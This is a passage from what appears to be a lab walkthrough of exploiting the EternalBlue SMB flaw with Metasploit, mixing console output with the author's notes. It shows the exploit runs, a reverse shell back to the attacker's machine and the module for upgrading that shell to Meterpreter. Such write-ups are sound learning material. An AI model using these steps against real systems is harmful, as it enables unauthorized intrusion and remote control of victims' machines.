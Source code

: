 [*] 10.10.14.78:445 - Sending last fragment of exploit packet!
[*] 10.10.14.78:445 - Receiving response from exploit packet
[+] 10.10.14.78:445 - ETERNALBLUE overwrite completed successfully (0xC000000D)!
[*] 10.10.14.78:445 - Sending egg to corrupted connection.
[*] 10.10.14.78:445 - Triggering free of corrupted buffer.
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=FAIL-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[-] 10.10.14.78:445 - =-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=-=
[*] Exploit completed, but no session was created.

-->clerly did not work so I had to try again, but also did not work so decided to restart the target machine
-->(as the room indicated)
--> this time it worked! so I suspended the shell to the background and continued with the tasks
msf6 exploit(windows/smb/ms17_010_eternalblue) > search shell_to_meterpreter
Matching Modules
================

   #  Name                                    Disclosure Date  Rank    Check  Description
   -  ----                                    ---------------  ----    -----  -----------
   0  post/multi/manage/shell_to_meterpreter                   normal  No     Shell to Meterpreter Upgrade


Interact with a module by name or index. For example info 0, use 0 or use post/multi/manage/shell_to_meterpreter

--> next is to use this to get a meterpreter rather than the currently unstable shell
msf6 exploit(windows/smb/ms17_010_eternalblue) > use 0
[*] Using configured payload windows/x64/shell/reverse_tcp
msf6 post(multi/manage/shell_to_meterpreter) > show options

Module options (post/multi/manage/shell_to_meterpreter):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   HANDLER  true             yes       Start an exploit/multi/handler to receive the conne
                                       ction
   LHOST                     no        IP of host that will receive the connection from th
                                       e payload (Will try to auto detect).
   LPORT    4433             yes       Port for payload to connect to.
   SESSION                   yes       The session to run this module on.

--> session is a rewuired setting which we must change:
msf6 post(multi/manage/shell_to_meterpreter) > sessions -l

Active sessions
===============

  Id  Name  Type               Information  Connection
  --  ----  ----               -----------  ----------
  1         shell x64/windows               10.11.59.68:4444 -> 10.10.200.63:49177 (10.10.
                                            200.63) 
